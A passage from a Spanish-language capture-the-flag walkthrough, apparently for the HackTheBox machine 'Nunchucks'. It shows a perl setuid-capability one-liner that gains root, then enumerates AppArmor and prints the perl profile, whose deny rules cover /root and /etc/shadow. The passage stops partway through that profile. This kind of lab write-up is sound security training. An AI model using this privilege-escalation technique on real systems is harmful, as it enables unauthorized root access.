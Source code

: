 Debido a que `perl` tiene esa capabilities podemos ejecutar comandos como usuario `root`, sin embargo, parece que algunos `binarios` no los podemos `ejecutar`

```
david@nunchucks:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```

Esto se parece bastante a `SELinux`, no encontramos nada en el sistema que diga que está instalado. Buscando `alternativas` a `SELinux` he encontrado `AppArmor`, si buscamos en el sistema nos daremos cuenta de que se encuentra `instalado`

```
find / -type f -name '*apparmor*' 2>/dev/null
/usr/lib/apparmor/rc.apparmor.functions
/usr/lib/apparmor/apparmor.systemd
/usr/lib/systemd/system/apparmor.service
/usr/lib/python3/dist-packages/apparmor-2.13.3.egg-info
/usr/lib/python3/dist-packages/sos/report/plugins/__pycache__/apparmor.cpython-38.pyc
/usr/lib/python3/dist-packages/sos/report/plugins/apparmor.py
/usr/lib/x86_64-linux-gnu/libapparmor.so.1.6.1
/usr/sbin/apparmor_parser
/usr/share/man/man5/apparmor.d.5.gz
/usr/share/man/man5/apparmor.vim.5.gz
/usr/share/man/man7/apparmor.7.gz
/usr/share/man/man8/apparmor_parser.8.gz
/usr/share/man/man8/apparmor_status.8.gz
/usr/share/vim/addons/syntax/apparmor.vim
/usr/share/vim/registry/vim-apparmor.yaml
/usr/share/apport/package-hooks/source_apparmor.py
/usr/share/lintian/overrides/apparmor-notify
/usr/share/lintian/overrides/apparmor
/usr/share/lintian/overrides/python3-apparmor
/usr/share/lintian/overrides/libapparmor-perl
/usr/share/lintian/overrides/apparmor-easyprof
/usr/share/lintian/overrides/python3-libapparmor
/usr/share/lintian/overrides/libapparmor1
/usr/share/lintian/overrides/apparmor-utils
/usr/src/linux-headers-5.4.0-81-generic/include/config/security/apparmor.h
/usr/src/linux-headers-5.4.0-81-generic/include/config/default/security/apparmor.h
```

Nos metemos en el directorio donde los están perfiles de `AppArmor` y visualizamos el `perfil` de `perl`

```
david@nunchucks:/etc$ cd /etc/apparmor.d
david@nunchucks:/etc/apparmor.d$ ls
abstractions  force-complain  lsb_release      sbin.dhclient  usr.bin.man   usr.sbin.ippusbxd  usr.sbin.rsyslogd
disable       local           nvidia_modprobe  tunables       usr.bin.perl  usr.sbin.mysqld    usr.sbin.tcpdump
david@nunchucks:/etc/apparmor.d$ cat usr.bin.perl
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

```